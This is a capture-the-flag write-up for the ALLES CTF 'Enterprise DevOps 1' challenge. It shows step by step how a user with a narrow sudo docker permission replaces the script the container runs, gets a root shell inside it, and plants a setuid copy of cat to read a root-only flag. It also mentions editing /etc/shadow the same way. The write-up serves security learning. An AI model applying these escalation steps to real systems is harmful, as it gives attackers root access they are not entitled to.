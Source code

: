### Enterprise DevOps 1

_After compromising the left-pad NPM package by guessing the author's NPM credentials (which happened to be the name of his cat, Lucy), you ended up with a shell somewhere deep inside a random company's continuous integration infrastructure._

_Your goal is to escalate your privileges through this multi-stage challenge and pivot through the company network. Each stage of the challenge has its own flag - this is part 1._

_See more details on the dedicated challenge page: [https://devops.allesctf.net/](https://devops.allesctf.net/)_

_Your session is stateful. Please share it with your team members - we have limited capacities. Terminate it unless you're currently working on it._

_The flag format is different for this challenge._


#### Solution

After visiting and reading [https://devops.allesctf.net/](https://devops.allesctf.net/) you are given the option to create a VM and start hacking.  My session ID was `0b0bda088a0a8dc59ab4981d`.

Login:

```
ssh 0b0bda088a0a8dc59ab4981d@broker1.allesctf.net
```

No password was required, at this point I have the following prompt:

```
[build@0b0bda088a0a8dc59ab4981d_stage1 ~]$
```

And, I am logged in as the user `build`.

One of the hints from [https://devops.allesctf.net/](https://devops.allesctf.net/):  _Find hidden clues (except for the flag, which is located at an obvious place like /flag)._

Sure enough, there's the flag:

```
$ ls -l /flag

----------. 1 root root 107 May  2 13:02 /flag
```

And yeah:

```
$ cat /flag

cat: /flag: Permission denied
```

Fail.

I tried to `sudo -s` and `su - root` using the password `Lucy` from the description--no luck.  I also tried different ways to spell `Lucy`, also no luck.

Moving on...

The only thing of interest in build's home dir is a `build.sh` script with the following contents:

```
#!/bin/bash

sudo /usr/bin/docker run -it -v /opt/build-input\:/work fedora\:29 /work/run.sh
```

When executed I get an awesome Tetris clone written in BASH:

![](devops1-1.png)

I can run that `sudo` line the following way as well:

```
sudo docker run -it -v /opt/build-input:/work fedora:29 /work/run.sh
```

And that is about it.  Any other alteration (sans remove the `\`'s or adding whitespace) yields a prompt to put in your password for sudo access:

```
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for build: 
```

Next I looked at `/opt/build-input`:

```
$ ls -ld /opt/build-input/

drwx------. 3 build build 78 Aug 24 23:55 /opt/build-input/

$ ls -l /opt/build-input/

-rwxrwxr-x. 1 root  root    15834 May  2 13:02 run.sh
```

Looks like I own `build-input`, but not `run.sh`, this is easy to fix:

```
$ cd /opt/build-input/
$ mv run.sh foo.sh
$ echo '#!/bin/bash' >run.sh
$ echo 'bash' >>run.sh
$ chmod 775 run.sh
$ ls -l

-rwxrwxr-x. 1 root  root    15834 May  2 13:02 foo.sh
-rwxrwxr-x  1 build build      17 Aug 24 22:15 run.sh
```

Since I own the directory I can change the metadata of a file, e.g. rename `run.sh` to `foo.sh`.  And since I own the directory I can create a new `run.sh` that just executes `bash`.

Now lets try that sudo again:

```
$ sudo docker run -it -v /opt/build-input:/work fedora:29 /work/run.sh
[root@eed1a444ddb6 /]# 
```

I have a root shell (in a container).

The `fedora:29` image does not have the `/` volume mounted, so there's no direct access to `/flag`, but I'm home free at this point.

```
# cp /bin/cat /work
# chmod +s /work/cat
# exit
```

The above copies the `cat` command to `/work` (i.e. `/opt/build-input` outside of the container) and sets the setuid bit.  Since I'm `root` within the container this gets written as a root owned file.  With the setuid bit set, a mere mortal can run the special `cat` command as if root:

```
$ ls -l /opt/build-input/cat

-rwsr-sr-x  1 root  root    52120 Aug 24 23:48 cat
```

Look at them lovely `s`'s.

Capture the flag:

```
$ /opt/build-input/cat /flag

STAGE1_ahpeeHahy7aingea8ahr6

You have successfully compromised this host. It's time to spread your wings!
```

Other commands can be copied over and setuid'd, e.g. `vi` if you want to edit `/etc/shadow` and set root's password.  However this trick does not work with `bash` (it used to, or at least with `sh` and `ksh` many, many years ago).
 























